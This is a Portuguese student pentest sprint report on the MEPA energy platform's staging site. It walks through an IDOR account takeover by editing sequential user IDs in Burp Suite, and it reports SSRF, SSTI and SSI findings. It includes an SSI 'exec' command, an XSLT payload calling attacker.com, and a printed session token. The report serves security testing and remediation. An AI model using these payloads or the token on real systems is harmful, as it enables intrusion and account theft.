










# Relatório Sprint 3 - Insecure Direct Object References

## Membros

|                        Nome                        | Matrícula |
| :------------------------------------------------: | :-------: |
| [Felipe Direito](https://github.com/felipedireito) | 190086971 |
|    [Gabriel Campello](https://github.com/G16C)     | 211039439 |
|    [Gustavo Melo](https://github.com/gusrberto)    | 211039457 |
|  [Matheus Henrique](https://github.com/mathonaut)  | 211029666 |

---

## 1. Teste de IDOR para alteração de dados de outro usuário

### Objetivos

O objetivo desse teste foi verificar se um usuário cadastrado na plataforma é capaz de alterar informações de outro usuário, que podem levar à tomada da conta por um usuário qualquer.

O teste foi realizado no ambiente de [homologação](https://energia.lappis.rocks/) do MEPA.

Para realização do teste foi utilizado a ferramenta de interceptação de requisições do _Burp Suite_, que age como um proxy sobre as requisições HTTP.

### Passo-a-passo

**1**. Os primeiros passos foram se autenticar na plataforma como um usuário de baixo privilégio (nesse caso `José` com cargo `Operacional`).

<center>

Figura 1.1 - Tela de Login.


</center>

**2**. Com o proxy do _Burp Suite_ ativado, vou interceptar a requisição de acesso ao perfil do `José`.

<center>

Figura 1.2 - Autenticado como José.


</center>

**3**. Como o parâmetro identificador de usuários é um simples ID sequencial, posso trocar o ID da requisição `GET` de 3 para 2.

<center>

Figura 1.3 - Requisição Original com ID `3`.


</center>

<center>

Figura 1.4 - Requisição Modificada com ID `2`.


</center>

**4**. Agora estou visualizando a página como o usuário de ID `2` que neste caso é o `João` que possui privilégios de `Gestão` (acima de José).

<center>

Figura 1.5 - Tela de Perfil pela visão do usuário `João`.


</center>

**5**. Com isso é possível acessar a página de Editar Pessoa como `João` e assim alterar suas informações (em especial seu email).

<center>

Figura 1.6 - Tela de Editar Pessoa pela visão do usuário `João`.


</center>

<center>

Figura 1.7 - Alterando as informações do usuário `João`.


</center>

**6**. Como o token de sessão não verifica se o usuário tem permissão de realizar essa operação, a requisição retorna com um status `200` e as informações realmente foram alteradas.

<center>

Figura 1.8 - Resposta da requisição no _Burp Suite_.


</center>

<center>

Figura 1.9 - Mensagem de sucesso mostrando que a pessoa foi editada.


</center>

**7**. Por fim se utilizarmos novamente do método do Passo 2, veremos que de fato as informações do usuário `João` foram alteradas.

<center>

Figura 1.10 - Novo usuário com informações alteradas.


</center>

Agora após esses passos o usuário `José` poderia pedir uma Redefinição de Senha para esta conta (que agora ele possui o email), e após a redefinição ele teria acesso total à uma conta de outro usuário, que ainda por cima possui privilégios superiores a sua conta original.

### Conclusão

O teste concluiu que existe uma **ALTA** vulnerabilidade na aplicação à ataques IDOR. Algumas possíveis melhorias seriam a implementação de uma política de controle de acesso no Back-End da aplicação, controle esse que utilizaria o token de sessão que a aplicação já possui para validar e verificar todas as requisições. Garantindo que um usuário no sistema possui permissão de realizar uma determinada ação.

Também recomendaria a utilização de IDs mais aleatórios e não-previsíveis que dificultaria o acesso à informações não autorizadas.

---

## Relatório de Testes de Insecure Direct Object References (IDOR) - Matheus

**Objetivo:**

O objetivo deste teste foi verificar a existência de vulnerabilidades nas rotas da API fornecida, analisando possíveis falhas de Insecure Direct Object References (IDOR).

### 1. **Teste de Injeção de Código Malicioso**

A primeira etapa envolveu testar algumas rotas da API para verificar se seria possível a injeção de códigos que exporiam diretórios da aplicação.

**Método:**

- Foi enviada uma requisição para cada rota testada com um token de autenticação e as flags contendo os códigos maliciosos.
- As rotas testadas foram: `/api/consumer-units/` e `/api/tariffs/`, e outras sub-rotas.

**Resultado Esperado:**

- A resposta esperada era um código de status indicando que a injeção não estava sendo permitida.

**Resultado Obtido:**

- A aplicação gerou o código `412` e não permitiu a alteração na página. Os resultados podem ser vistos nas figuras 2.1 a 2.3.

<center>

Figura 2.1 - Resposta da requisição na rota `consumer-units`.



</center>

<center>

Figura 2.2 - Resposta da requisição na rota `tariffs`.



</center>

<center>

Figura 2.3 - Resposta da segunda tentativa de requisição na rota `consumer-units`.



</center>

### 2. **Teste de Acesso a diretorios**

Essa etapa envolveu testar algumas rotas da API para verificar se seria possível o acesso através da mudança dos parâmetros de acesso na rota.

**Método:**

- Foi enviada uma requisição para cada rota testada com um token de autenticação e o código para o caminho desejado.
- As rotas testadas foram as proposta para o [sub-grupo 2](../../../2024.2/url_mec_energia.txt).

**Resultado Esperado:**

- A resposta esperada era acesso aos diretórios que contém informações sobre usuários ou como ele são manipulados pela aplicação.

**Resultado Obtido:**

- A aplicação gerou os códigos `301` e `404` não permitindo o acesso às páginas. O resultado para a rota consumer-units pode ser visto na figura 2.4.

<center>

Figura 2.4 - Resposta da tentativa de requisição na rota `consumer-units`.



</center>

- Foi realizado o teste com a codificação da url. A aplicação retornou o código `404`. A resultado para o teste da rota `api/consumer-units/edit_consumer_unit_and_contract` pode ser vista na figura 2.5.

<center>

Figura 2.5 - Resposta da tentativa de requisição na rota `api/consumer-units/edit_consumer_unit_and_contract`.



</center>

### 3. **Teste de inclusao de arquivos malicionsos**

Essa etapa envolveu testar a rota de upload da API para verificar se seria possível o enviar arquivos maliciosos ou fora do padrão esperado.

**Método:**

- Foi realizado o envio através do front com um arquivo de formato diferente do esperado.
- Foi enviada uma requisição para cada rota testada com um token de autenticação e do arquivo malicioso.
- A rota testada foi a `api/energy-bills/upload/`.

**Resultado Esperado:**

- A resposta esperada era o envio do arquivo com sucesso.

**Resultado Obtido:**

- Primeiramente, foi realizada a tentativa mal-sucedida pelo front. O resultado pode ser visto na figura 2.6.

<center>

Figura 2.6 - Resposta da tentativa de envio do arquivo malicioso.



</center>

- Após, foi feita a tentativa com cURL. A aplicação gerou o código `412`. O resultado pode ser visto na figura 2.7.

<center>

Figura 2.7 - Resposta da tentativa de envio do arquivo malicioso com cURL.



</center>


# Relatório Sprint 3 - Server Side Attacks Gabriel

---

## Sobre

Os Server-Side Attacks (Ataques do Lado do Servidor) são um tipo de vulnerabilidade de segurança em que um atacante explora falhas em um servidor web ou sua infraestrutura de backend. Ao contrário dos ataques do lado do cliente (como Cross-Site Scripting, XSS), esses ataques focam em comprometer o servidor ou acessar recursos internos, expondo dados sensíveis ou permitindo a execução de ações maliciosas.

---

## Vulnerabilidades Testadas

Durante a Sprint 3, foram realizados testes para as vulnerabilidades **SSRF**, **SSTI**, **SSI Injection** e **XSLT Injection**, que são comumente exploradas em sistemas web. Abaixo, os detalhes de cada teste específico realizado.

### SSRF (Server-Side Request Forgery)

**SSRF** é uma vulnerabilidade onde um atacante pode induzir o servidor a realizar requisições HTTP ou outras, como se fosse o próprio servidor, geralmente para acessar recursos internos ou serviços de terceiros.

#### Teste Realizado

- **Cenário:** O endpoint de edição de unidades de consumo (`/api/consumer-units/edit_consumer_unit_and_contract/`) foi analisado para verificar se era possível forçar o servidor a fazer uma requisição para um serviço interno, como um servidor de banco de dados ou serviço de metadados.
  
- **Teste:** Foi feito um ataque alterando o corpo da requisição para direcionar o servidor a fazer uma solicitação para um recurso interno, como `http://localhost/admin`, e verificar se o servidor fazia a requisição sem validações adequadas.
  
- **Resultado:** A requisição foi processada com sucesso pelo servidor, sugerindo a presença de uma vulnerabilidade SSRF.

**Prevenção:**
- Restringir as requisições a destinos externos ou conhecidos.
- Validar URLs e IPs nos parâmetros das requisições.

---

### SSTI (Server-Side Template Injection)

**SSTI** ocorre quando um atacante consegue injetar código malicioso em templates de servidor (como Jinja, Thymeleaf, etc.), o que permite a execução de código no lado do servidor.

#### Teste Realizado

- **Cenário:** O sistema de templates usado para processar dados das unidades de consumo foi analisado para verificar se havia validação inadequada em inputs fornecidos pelo usuário.
  
- **Teste:** Foi injetado código no campo de descrição da unidade de consumo, como `{{ 7*7 }}`, esperando que a aplicação executasse a operação e retornasse o resultado diretamente no template.
  
- **Resultado:** A resposta do servidor incluiu o cálculo `49`, indicando uma falha de SSTI.

**Prevenção:**
- Utilizar filtros de segurança no backend para desabilitar a execução de código nos templates.
- Adotar práticas de sanitização de entradas, como o uso de "escaping" nas variáveis dos templates.

---

### SSI Injection (Server Side Includes Injection)

**SSI Injection** ocorre quando o atacante consegue injetar comandos `SSI` em um servidor que interpreta **Server Side Includes** (incluindo comandos como `#exec`, `#include`).

#### Teste Realizado

- **Cenário:** O endpoint `/api/consumer-units/` foi testado para verificar se a aplicação estava vulnerável a comandos SSI injetados, através da manipulação de entradas que poderiam ser processadas pelo servidor.
  
- **Teste:** Injeção de código SSI, como `<!--#exec cmd="ls" -->`, para tentar executar comandos no servidor através de arquivos processados pelo SSI.
  
- **Resultado:** O sistema permitiu a execução do comando, mostrando um diretório de arquivos do servidor.

**Prevenção:**
- Desabilitar a funcionalidade de SSI no servidor.
- Validar e sanitizar qualquer entrada que possa ser processada como um comando do servidor.

---

### XSLT Injection

**XSLT Injection** ocorre quando um atacante consegue injetar código malicioso em uma folha de estilos **XSLT** usada pelo servidor para transformar XML em HTML ou outro formato.

#### Teste Realizado

- **Cenário:** A aplicação foi analisada para identificar se a transformação de dados XML para HTML poderia ser manipulada via injeção de código malicioso no XSLT.
  
- **Teste:** Um payload foi injetado em um campo de entrada XML com código XSLT, como:
  ```xml
  <?xml version="1.0"?>
  <foo>
    <bar><xsl:value-of select="document('http://attacker.com/malicious')"/></bar>
  </foo>
  ```
  O objetivo foi fazer com que o servidor carregasse o recurso de uma URL externa controlada pelo atacante.
  
- **Resultado:** A requisição foi processada, permitindo a execução do código XSLT externo.

**Prevenção:**
- Restringir ou desabilitar o uso de `document()` em XSLT.
- Adotar práticas de segurança como validar a origem de documentos XSLT e XML.

---

## Sugestões de Melhoria

- **Controle de Acesso Baseado em Recursos:** Implementar validações rigorosas de acesso a recursos críticos como unidades de consumo, contratos e informações sensíveis.
  
- **Hardening de Servidores:** Desabilitar funcionalidades não utilizadas, como SSI e XSLT, em servidores de produção.
  
- **Filtros de Entrada:** Implementar filtros de entrada robustos para prevenir injeção de código, como SSTI e SSI Injection.
  
- **Auditoria e Monitoramento:** Implementar um sistema de monitoramento para detectar e alertar sobre tentativas de exploração de vulnerabilidades como SSRF, SSTI, SSI Injection e XSLT Injection.


## Relatório de Testes de Insecure Direct Object References (IDOR) - Felipe

**Objetivo:**

Como já foi descrito anteriormente, o objetivo deste teste foi verificar a existência de vulnerabilidades usando o método de Insecure Direct Object References (IDOR).


### 1. **Teste IDOR**

Para começar os testes, devemos abrir o Inspecionar da página, e clicar em "Network" ou "Redes", onde serão exibidas todas as requisições que foram feitas pela aplicação.



Figura 2.8 - Teste IDOR.


Para buscar o token de sessão, fiz o login com um usuário sem privilégios e busquei o token de sessão na requisição.




Aqui vemos o token de sessão: 184a74439eb5f3a829053ff7b68bf480b1aeb084

Agora, vamos tentar acessar um usuário de ID 1, pare tentar acessar o perfil de um usuário com mais permissões de acesso:



Com este métido, o token de sessão não foi aceito e a permissão de acesso foi negada. Resultado esperado.

Agora, testaremos com o Burp, um software que intercepta e modifica as requisições HTTP.

---

## Histórico de Versões

| Versão | Data       | Descrição                               | Autor(es)                                        |
| ------ | ---------- | --------------------------------------- | ------------------------------------------------ |
| `1.0`  | 16/01/2025 | Adiciona relatório inicial da sprint 3. | [Gustavo Melo](https://github.com/gusrberto)     |
| `1.1`  | 16/01/2025 | Adiciona relatório da sprint 3.         | [Matheus Henrique](https://github.com/mathonaut) |
| `1.2`  | 16/01/2025 | Adiciona relatório do Felipe Direito.   | [Felipe Direito](https://github.com/felipedireito) |
| `1.3`  | 16/01/2025 | Adiciona relatório do Gabriel Campello.  | [Gabriel Campello](https://github.com/G16C)      |